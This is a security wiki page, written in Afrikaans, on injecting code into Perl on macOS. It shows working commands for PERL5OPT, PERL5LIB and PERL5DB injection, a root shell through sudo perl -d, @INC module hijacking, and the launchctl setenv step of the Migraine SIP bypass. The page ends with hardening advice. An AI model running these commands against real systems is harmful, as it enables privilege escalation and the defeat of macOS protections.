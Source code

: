 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Via `PERL5OPT` & `PERL5LIB` omgewing veranderlike

Deur die omgewing veranderlike **`PERL5OPT`** te gebruik, is dit moontlik om **Perl** te laat uitvoer van arbitrêre opdragte wanneer die interpreter begin (selfs **voor** die eerste lyn van die teikenskrip geanaliseer word).
Byvoorbeeld, skep hierdie skrip:
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
Nou **voer die omgewing veranderlike uit** en voer die **perl** skrip uit:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
'n Ander opsie is om 'n Perl-module te skep (bv. `/tmp/pmod.pm`):
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
En gebruik dan die omgewingsveranderlikes sodat die module outomaties geleë en gelaai word:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
### Ander interessante omgewing veranderlikes

* **`PERL5DB`** – wanneer die interpreter met die **`-d`** (debugger) vlag begin word, word die inhoud van `PERL5DB` as Perl kode *binne* die debugger konteks uitgevoer. 
As jy beide die omgewing **en** die opdraglyn vlae van 'n bevoorregte Perl proses kan beïnvloed, kan jy iets soos die volgende doen:

```bash
export PERL5DB='system("/bin/zsh")'
sudo perl -d /usr/bin/some_admin_script.pl   # sal 'n shell laat val voordat die skrip uitgevoer word
```

* **`PERL5SHELL`** – op Windows beheer hierdie veranderlike watter shell uitvoerbare Perl sal gebruik wanneer dit 'n shell moet spawn. Dit word hier slegs genoem vir volledigheid, aangesien dit nie relevant is op macOS nie.

Alhoewel `PERL5DB` die `-d` skakel vereis, is dit algemeen om onderhouds- of installeerder skripte te vind wat as *root* uitgevoer word met hierdie vlag geaktiveer vir gedetailleerde probleemoplossing, wat die veranderlike 'n geldige eskalasie-vak kan maak.

## Deur afhanklikhede (@INC misbruik)

Dit is moontlik om die insluitpad wat Perl sal soek (**`@INC`**) te lys deur:
```bash
perl -e 'print join("\n", @INC)'
```
Tipiese uitvoer op macOS 13/14 lyk soos:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
Sommige van die teruggekeerde vouers bestaan selfs nie, maar **`/Library/Perl/5.30`** bestaan, is *nie* beskerm deur SIP nie en is *voor* die SIP-beskermde vouers. Daarom, as jy as *root* kan skryf, kan jy 'n kwaadwillige module (bv. `File/Basename.pm`) laat val wat *voorkeursgewys* gelaai sal word deur enige bevoorregte skrip wat daardie module invoer.

> [!WARNING]
> Jy het steeds **root** nodig om binne `/Library/Perl` te skryf en macOS sal 'n **TCC**-prompt wys wat vra vir *Volledige Skyf Toegang* vir die proses wat die skryfoperasie uitvoer.

Byvoorbeeld, as 'n skrip **`use File::Basename;`** invoer, sal dit moontlik wees om `/Library/Perl/5.30/File/Basename.pm` te skep wat aanvaller-beheerde kode bevat.

## SIP omseiling via Migrasie Assistent (CVE-2023-32369 “Migraine”)

In Mei 2023 het Microsoft **CVE-2023-32369** bekend gemaak, met die bynaam **Migraine**, 'n post-exploitatie tegniek wat 'n *root* aanvaller in staat stel om **System Integrity Protection (SIP)** heeltemal te **omseil**.
Die kwesbare komponent is **`systemmigrationd`**, 'n daemon wat toegelaat word met **`com.apple.rootless.install.heritable`**. Enige kindproses wat deur hierdie daemon gegenereer word, erf die toelae en loop dus **buite** SIP-beperkings.

Onder die kinders wat deur die navorsers geïdentifiseer is, is die Apple-onderteken interpreter:
```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
Omdat Perl `PERL5OPT` eerbiedig, (en Bash eerbiedig `BASH_ENV`), is dit genoeg om die daemon se *omgewing* te vergiftig om arbitrêre uitvoering in 'n SIP-loos konteks te verkry:
```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
Wanneer `migrateLocalKDC` loop, begin `/usr/bin/perl` met die kwaadwillige `PERL5OPT` en voer `/private/tmp/migraine.sh` uit *voordat SIP heraktiveer word*. Vanuit daardie skrip kan jy byvoorbeeld 'n payload binne **`/System/Library/LaunchDaemons`** kopieer of die `com.apple.rootless` uitgebreide attribuut toewys om 'n lêer **onverwyderbaar** te maak.

Apple het die probleem in macOS **Ventura 13.4**, **Monterey 12.6.6** en **Big Sur 11.7.7** reggestel, maar ouer of nie-gepatchte stelsels bly uitbuitbaar.

## Versterking aanbevelings

1. **Verwyder gevaarlike veranderlikes** – bevoorregte launchdaemons of cron jobs moet met 'n skoon omgewing begin (`launchctl unsetenv PERL5OPT`, `env -i`, ens.).
2. **Vermy om interpreters as root te laat loop** tensy dit streng nodig is. Gebruik gecompileerde binêre of laat voorregte vroeg val.
3. **Verskaffer skripte met `-T` (taint mode)** sodat Perl `PERL5OPT` en ander onveilige skakels ignoreer wanneer taint kontrole geaktiveer is.
4. **Hou macOS op datum** – “Migraine” is volledig gepatch in huidige weergawes.

## Verwysings

- Microsoft Security Blog – “Nuwe macOS kwesbaarheid, Migraine, kan die Stelselintegriteitsbeskerming omseil” (CVE-2023-32369), 30 Mei 2023.
- Hackyboiz – “macOS SIP Bypass (PERL5OPT & BASH_ENV) navorsing”, Mei 2025.

{{#include ../../../banners/hacktricks-training.md}}

